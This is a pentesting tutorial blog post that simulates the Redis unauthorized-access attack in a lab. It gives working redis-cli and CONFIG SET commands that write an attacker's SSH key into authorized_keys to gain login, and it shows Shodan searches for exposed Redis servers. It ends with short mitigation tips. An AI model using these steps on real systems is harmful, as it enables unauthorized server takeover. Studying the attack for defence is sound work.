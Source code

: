```yaml
---
layout: post
title: "Simulating Redis Unauthorized Access Vulnerability"
excerpt: "If a Redis is publicly accessible and is not protected by password, a remote attacker can exploit this to gain unauthorized access to the server. Let's learn how to set up a vulnerable redis server and attack it. We will also explore how to search and verify vulnerable redis out there with powerful search engine Shodan and automated python exploit"
categories: [pentesting-simulation]
comments: true
image:
  feature: redis-unauth-acc-vul/redis-unauthorized-access.png
  show: true
tag: ['cybersecurity', 'pentesting', 'infosec', 'redis', 'vul-simulation']
---
```


Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis' are bind to public interface and even has no password authentication protection. 


Under certain conditions, if Redis runs with the root account (or not even), attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges, delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.


The simplified flow of this exploit is:

	- Login to a unprotected Redis
	- Change it's backup location to .ssh directory
	- Write the SSH Keys to new backup location
	- Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

## Simulation

Now let's get our feet wet and set up a target machine. We'll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.


Environment setup for this example:

	- Target machine: Redis-3.2.11 on Ubuntu
	- Attack machine: Kali Linux

#### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by
```bash
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build
```bash
tar xzf redis-3.2.11.tar.gz
cd redis-3.2.11
make
```

After make, we can use our favorite editor to open ```redis.conf``` in ```redis-3.2.11``` folder. In order to be remotely accessed, we will need to comment out line ```bind 127.0.0.1``` and disable ```protected-mode``` as shown below.

![redis.conf]({{ "/assets/upload/images/redis-unauth-acc-vul/redis.conf.png" | absolute_url }}){:class="post-image center"}

Now fire up Redis with the configuration file we just edited. Note that ```redis-server``` is in ```redis-3.2.11/src```.

```bash
src/redis-server redis.conf
```

So far, we have finished setting up the targer server. Additionally, we should also check if we have ```.ssh``` folder. If not, we should create it for the attack later. 


#### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target machine later. Run the following command to generate SSH keys and leave passphrase empty.
```bash
ssh-keygen -t rsa
```

Next, enter the ```.ssh``` folder. If you are root user, enter ```/.ssh```, otherwise ```~/.ssh```, then copy the private key in to ```temp.txt```.

```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don't know :)

![ssh-keygen]({{ "/assets/upload/images/redis-unauth-acc-vul/keygen.png" | absolute_url }}){:class="post-image center"}

Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use ```redis-cli```, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal. 

Run the following commands in ```redis-3.2.11/src``` folder. (Or depending where we are, we can always specify the path to the files we use)

```bash
#our SSH public key|            Remote Redis IP | Command | key file
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let's' take a look at the command. We use ```-h``` flag to specify the remote Redis server IP so that ```redis-cli``` knows where to connect and send commands. The part after ```-x``` is saying that we are setting the key in redis named ```s-key``` with the value in ```temp.txt```. 

![set-key]({{ "/assets/upload/images/redis-unauth-acc-vul/set_key.png" | absolute_url }}){:class="post-image center"}

Yea, we have a key with our SSH key sneaked in! Let's connect to the Redis and play around its configuration. Use ```redis-cli``` to connect to the Redis server again.

![set-backup-dir]({{ "/assets/upload/images/redis-unauth-acc-vul/set_backup_dir.png" | absolute_url }}){:class="post-image center"}

Looking at the above screenshot, we first verify the value of the key ```s-key``` by using the command ```GET s-key```, which is what we want -- the public key with two blank lines before and after. Then I tried the command "dir" just to see what it says (kidding). What we actually want to do here is to get the value of "s-key" (SSH public key) stored in the ```.ssh``` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```bash
CONFIG GET dir #  get your redis directory
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed.

CONFIG SET dir /home/xxxx/.ssh # set the backup location to the .ssh folder
(or) CONFIG SET dir /root/.ssh 

CONFIG SET dbfilename authorized_keys

# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder
save

```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured 
> Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)


The screenshot shown above already demonstrates the steps mentioned here.


#### Harvest Time

On Attack Machine, try to SSH in the Target Machine using the following command.

```bash
# private key username@server IP
ssh -i id_rsa username@203.137.255.255
```

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}


YAS! As we can see, we have a successful auto-login with SSH keys! Voila, we have now completed the attack simulation. :smile: (Smiley face actually means that I'm finally almost done writing this up :joy:)

At the end of this section, I would like to show what is Redis's backup file look like.

![sshkey-auth-login]({{ "/assets/upload/images/redis-unauth-acc-vul/sshkey_auth_login.png" | absolute_url }}){:class="post-image center"}

Notice the unreadable characters? Add "\n\n" before and after the key content was just to be safe and separate it from other "stuff" so that it can be parsed correctly. :ok_hand:

## Use Search Engine to find Vulnerable Redis Servers

Alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis' default port.

![shodan]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan.png" | absolute_url }}){:class="post-image center"}

Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! :worried: :worried: :worried: 

This vulnerability was found years ago and now still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server... 

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015. 

![shodan-twitter]({{ "/assets/upload/images/redis-unauth-acc-vul/shodan_twit.png" | absolute_url }}){:class="post-image center"}

According to ZoomEye, the distribution of the instances is.

![zoomeye-dist]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist.png" | absolute_url }}){:class="post-image center"}

The top ranking countries of these instances are: China, USA, Germany...

![zoomeye-dist-rank]({{ "/assets/upload/images/redis-unauth-acc-vul/zoomeye_dist_rank.png" | absolute_url }}){:class="post-image center"}

Okay, back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail

![redis-python-verify]({{ "/assets/upload/images/redis-unauth-acc-vul/redis_python.png" | absolute_url }}){:class="post-image center"}


## Mitigation

- Don't bind to 0.0.0.0
- If you have to, change the default port (6379)
- Set a password (for everything)
